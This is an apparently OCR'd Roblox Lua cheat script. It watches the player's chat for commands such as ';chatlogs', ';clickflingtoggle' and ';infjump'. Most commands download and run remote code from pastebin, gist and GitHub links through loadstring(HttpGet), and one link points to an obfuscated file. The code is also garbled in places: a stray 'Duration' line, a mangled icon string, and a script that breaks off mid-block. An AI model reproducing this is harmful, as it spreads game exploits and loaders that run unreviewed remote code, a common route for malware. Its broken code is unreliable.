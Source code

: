local Player = game.Players.LocalPlayer

Player.Chatted:connect(function(cht)
	if cht:match(";autorefresh") then
spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[AUTO REFRESH ENABLED]"
wait(4)
message:Destroy()
end)

loadstring(game:HttpGet('https://pastebin.com/raw/VwZEwsmu'))()
	elseif cht:match(";chatlogs") then
loadstring(game:HttpGet('https://gist.githubusercontent.com/MRSBLACK999/75238caa149c55142096b5c75c7a49f4/raw/d819ba2ff929688092e6bf853e1718f59b242e2c/Chat%2520logs'))()
spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[SHOWING CHAT LOGS]"
wait(3)
message:Destroy()
end)
game:GetService("StarterGui"):SetCore("SendNotification", { 

	Title = "[Credit]";

	Text = "[To Owners]";

	Icon = "rbxthumb://type=Asset&id=https:8403291188&w=150&h=150"})

Duration = 5;  
	elseif cht:match(";chatart") then
loadstring(game:HttpGet("https://raw.githubusercontent.com/omegachadgaming/mongus/main/main.lua", true))()
spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[DO (.) THEN WORD]"
wait(4)
message:Destroy()
end)
	elseif cht:match(";clickflingtoggle") then
loadstring(game:HttpGet(('https://raw.githubusercontent.com/0Ben1/fe/main/obf_5wpM7bBcOPspmX7lQ3m75SrYNWqxZ858ai3tJdEAId6jSI05IOUB224FQ0VSAswH.lua.txt'),true))()
spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[FLING GUI LOADED]"
wait(1)
message:Destroy()
end)
	elseif cht:match(";infjump") then
local InfiniteJumpEnabled = true
game:GetService("UserInputService").JumpRequest:connect(function()
	if InfiniteJumpEnabled then
		game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping")
	end
end)

